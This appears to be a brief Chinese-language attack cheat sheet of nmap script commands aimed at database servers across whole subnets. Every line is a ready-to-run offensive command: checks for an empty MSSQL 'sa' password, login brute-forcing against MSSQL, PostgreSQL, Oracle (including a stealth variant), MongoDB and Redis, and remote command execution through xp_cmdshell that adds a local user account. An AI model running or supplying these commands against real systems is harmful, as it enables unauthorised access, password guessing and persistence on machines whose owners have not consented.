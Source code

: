 - mssql
    - 扫描 sa 空密码 : `nmap -p 1433 --script ms-sql-empty-password.nse -v <target ip>/24`
    - sa 弱口令爆破 : `nmap -p 1433 --script ms-sql-brute.nse -v <target ip>/24`
    - 利用 xp_cmdshell,远程执行系统命令 : `nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd=net user test test add <target ip>/24`

- postgresql
    - 爆破 : `nmap -p 5432 --script pgsql-brute -v <target ip>/24`

- oracle
    - 爆破 : `nmap --script oracle-brute-stealth -p 1521 --script-args oracle-brute-stealth.sid=ORCL  -v <target ip>/24`
    - 爆破 : `nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=ORCL -v <target ip>/24`

- mongdb
    - 爆破 : `nmap -p 27017  --script mongodb-brute <target ip>/24`

- redis
    - 爆破 : `nmap -p 6379 --script redis-brute.nse <target ip>/24`
